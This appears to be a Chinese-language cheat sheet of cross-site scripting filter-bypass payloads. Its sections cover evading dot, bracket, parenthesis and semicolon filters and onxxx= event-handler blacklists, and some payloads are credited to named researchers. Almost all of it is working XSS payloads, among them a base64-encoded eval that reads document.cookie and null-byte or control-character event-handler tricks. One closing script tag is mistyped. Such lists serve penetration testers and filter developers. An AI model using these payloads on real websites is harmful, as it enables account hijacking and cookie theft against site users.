 ## 点过滤的绕过

```javascript
<script>window['alert'](document['domain'])</script>
```

将IP地址转换为十进制格式：例如`http://192.168.1.1` == `http://3232235777`

```javascript
<script>eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))<script>
```

使用Linux命令对XSS有效载荷进行Base64编码：例如`echo -n "alert(document.cookie)" | base64` == `YWxlcnQoZG9jdW1lbnQuY29va2llKQ==`

## 字符串括号的绕过

```javascript
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
```

## 括号和分号的绕过

- 来自@garethheyes

    ```javascript
    <script>onerror=alert;throw 1337</script>
    <script>{onerror=alert}throw 1337</script>
    <script>throw onerror=alert,'some string',123,'haha'</script>
    ```

- 来自@terjanq

    ```js
    <script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>
    ```

- 来自@cgvwzq

    ```js
    <script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
    ```

## 绕过onxxxx=黑名单

- 使用不太知名的标签

    ```html
    <object onafterscriptexecute=confirm(0)>
    <object onbeforescriptexecute=confirm(0)>
    ```

- 使用空字节/垂直制表符/回车/换行绕过onxxx=

    ```html
    <img src='1' onerror\x00=alert(0) />
    <img src='1' onerror\x0b=alert(0) />
    <img src='1' onerror\x0d=alert(0) />
    <img src='1' onerror\x0a=alert(0) />
    ```
